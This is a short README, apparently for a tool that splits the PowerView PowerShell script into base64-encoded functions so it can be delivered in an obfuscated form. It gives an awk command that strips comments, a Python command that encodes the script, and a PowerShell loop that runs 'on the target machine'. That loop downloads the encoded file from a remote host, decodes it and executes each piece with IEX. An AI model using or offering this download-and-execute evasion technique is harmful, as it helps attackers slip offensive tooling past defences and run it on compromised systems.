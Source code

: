  
# How it works
The idea is to split the ps1 script into functions, base64 encode all functions and dump that into a file. Then load the file with powershell and loop through all the lines, base64 decode and IEX. Profit!

# Clean the powershell script
Remove all the comments and docs
```
awk '/<#/{flag=0;next}/#>/{flag=1}flag' PowerView.ps1 > pv.ps1
```

The python script takes care of removing the inline comments (starts with `#`)

# Run
```
python PyPowerSplit.py pv.ps1 > p
```

# Powershell (run.ps1)
To run the code, run this on the target machine. Change the address accordingly.
```
ForEach ($line in $((New-Object Net.WebClient).DownloadString('http://192.168.0.248:5555/p') -split "\n"))
{
    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($line)) | IEX
}

```